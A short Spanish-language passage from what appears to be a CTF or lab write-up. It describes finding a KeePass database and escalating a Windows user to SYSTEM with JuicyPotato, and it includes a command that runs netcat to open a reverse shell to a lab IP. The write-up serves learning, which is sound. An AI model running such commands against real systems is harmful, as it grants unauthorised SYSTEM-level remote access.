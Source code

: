 Además, se identificó una base de datos de KeePass `CEH.kdbx` en el directorio `Documents` del usuario, abriendo otra ruta de escalación si se llegara a encontrar información relevante para el proceso.

![Base de datos de KeePass](images/post_2.png)

### Escalación de privilegios

#### kohsuke &rarr; nt authority\system

##### JuicyPotato

Al cargar previamente el binario de netcat y ejecutar el binario de JuicyPotato se obtuvo una reverse shell como `nt authority\system` mediante:

```powershell
.\jp.exe -t * -l 1337 -p cmd.exe -a " /c C:\users\kohsuke\downloads\nc.exe -e cmd.exe 10.10.14.16 1234"
```

![Obtención de reverse shell como administrator](images/post_3.png)

1. Ejecución de JuicyPotato.
2. Otención de reverse shell.
